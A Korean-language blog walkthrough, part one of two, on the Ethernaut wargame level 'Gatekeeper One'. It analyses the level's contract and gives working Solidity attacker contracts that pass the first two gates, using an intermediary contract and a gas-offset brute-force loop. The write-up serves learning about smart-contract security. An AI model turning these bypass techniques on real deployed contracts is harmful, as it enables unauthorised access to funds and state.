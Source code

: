 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 13) Gatekeeper One - 1 
date: '2022-01-17 11:53:00'
author: 한성원
tags: ethernaut GatekeeperOne vulnerability
categories: 취약점분석
---
```



# 👋 Gatekeeper One
__Difficulty 5/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

이번 포스트는 특별하게 2편으로 나누어 진행한다. 
이번편은 gate1과 gate2를 다룰 예정이다.
- - -

## 승리 조건
- Gatekeeper을 지나 entrant로 등록하기

- - -

## 코드 분석
GatekeeperOne contract에서스 3개의 gate가 존재한다. gate는 모두 modifier로 되어있다. 즉 3개의 modifier의 조건을 만족시키면 된다.   
분석은 주석에!

```solidity
contract GatekeeperOne {

    using SafeMath for uint256;
    address public entrant;

    // msg.sender과 tx.origin이 다르면 진행
    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    // gasleft()의 8191의 배수이면 진행
    modifier gateTwo() {
        require(gasleft().mod(8191) == 0);
        _;
    }

    // _gateKey가 type casting관련 3가지 조건에 만족하면 진행
    modifier gateThree(bytes8 _gateKey) { 
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    // modifier를 포함한 함수: 이 함수를 통해 내가 entrant가 될 수 있다.
    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}

```
- - -


## 풀이
이 문제에서 우리의 목표는 3개의 gate를 무사히 지나 entrant로 등록하는 것이다. 우선 gate1은 이전에 풀었던 [Telephone](https://holyhansss.github.io/ethernaut/4_telephone_ethernaut/4_telephone_ethernaut/)과 유사했다. 아래의 조건은 우리가 가지고 그냥 내가 직접 transaction을 보내지 않고 다른 contract를 만들어 사용하면 된다. gate1은 쉽게 풀렸다.

```solidity
require(tx.origin != msg.sender)
```
<br/>

그렇다면 gate2번은 어떻게 pass할 수 있을까? 아래의 코드에서 중요한 점은 gasleft이다. [gasleft()](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html)는 gasleft()가 실행되는 당시의 gas가 얼마나 남았는지 return해주는 함수이다. 그렇다면 어떻게 그 당시 남은 gas를 8191의 배수로 만들 수 있을까?

```solidity
modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
}
```
<br/>

이 문제를 완벽히 이해하고 풀기까지 이틀정도 소요된 것 같다ㅜ 

gas 관련 부분에 대한 나의 지식이 부족했던지라 구글을 사용해서 답을 찾아서 이해하는 식으로 진행했다. 

우리는 여기서 reqire문이 실행될때 남은 gas가 8191의 배수가 되게 해야한다. Openzeppline에서 찾은 답은 아래와 같았다. 2번째 gate를 풀기 위해 될때까지 보내는 식인 것 같다. 공부를 마친 후 지금에서 보면 어느정도 이해가 된다. 하지만 내가 문제를 풀 당시에는 아래 코드를 제대로 이해하지 못해 내가 이해할 수 있는 방법으로 문제를 풀었다.

```solidity
contract GatekeeperOneAttack {

  constructor(address GatekeeperOneContractAddress) public {
    bytes8 key = bytes8(uint64(uint16(tx.origin)) + 2 ** 32);
    
    // NOTE: the proper gas offset to use will vary depending on the compiler
    // version and optimization settings used to deploy the factory contract.
    // To migitage, brute-force a range of possible values of gas to forward.
    // Using call (vs. an abstract interface) prevents reverts from propagating.
    bytes memory encodedParams = abi.encodeWithSignature(("enter(bytes8)"),
      key
    );

    // gas offset usually comes in around 210, give a buffer of 60 on each side
    for (uint256 i = 0; i < 120; i++) {
      (bool result, ) = address(GatekeeperOneContractAddress).call{gas: i + 150 + 8191 * 3}(encodedParams);
      if(result)
        {
        break;
      }
    }
  }
}
```
<br/>

나는 gate2를 풀때 require문에서 계산되는 시기에 남은 gas의 값을 정확하게 얻어내는 방식으로 진행했다. 여기에서는 remix의 dubugger를 통해 opcode와 그에 대한 정보를 사용했다. 우선 내가 만든 contract는 이랬다. 나는 [이 글](https://medium.com/coinmonks/ethernaut-lvl-13-gatekeeper-1-walkthrough-how-to-calculate-smart-contract-gas-consumption-and-eb4b042d3009)에서 방법을 배워 적용했다!   

<br/>
새로운 contract를 만들어 GatekeeperOne.enter()를 call 했다면 gate 1은 성공한 것이다. 그리고 콘솔창을 보면 아래와 같은 transaction 실패표시가 뜰 것이다. 그리고 저 부분을 클릭하고 transaction hash를 찾아 remix debugger에 넣으면 된다.

![gate2_transaction_fail](./gate2_transaction_fail.png)
<br/>

이후 debugger를 돌리다보면 아래와 같이 "gasleft().mod" 가 하이라이트 될 때가 있다. 그때 Opcode는 PUSH에 있을 것이고 Step details를 보면 remaining gas를 확인 할 수 있다. 이를 역계산해서 필요한gas만큼 8191의 배수에 더해 transaction을 보내면 된다. 
![debuge_gate2](./debug_gateTwo.png)

아래는 내가 해결할때 사용한  코드이다!

```solidity
contract GetEntrant {
    
    GatekeeperOne gatekeeperOne;

    constructor(address _gatekeeperOne) public {
        gatekeeperOne = GatekeeperOne(_gatekeeperOne);
    }
    
    function enter(bytes8 _gateKey) public {
        //254 gas는 내가 debug를 통해 계산했다.
        gatekeeperOne.enter{gas: 8191*5+254}(_gateKey);
    }
  
}
```
<br/>
너무 길어져서 다음 글에 type conversion 설명과 gate3에 대한 설명을 쓰도록 하겠다:)



- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- Storage & Casting: https://medium.com/coinmonks/solidity-variables-storage-type-conversions-and-accessing-private-variables-c59b4484c183

```toc

```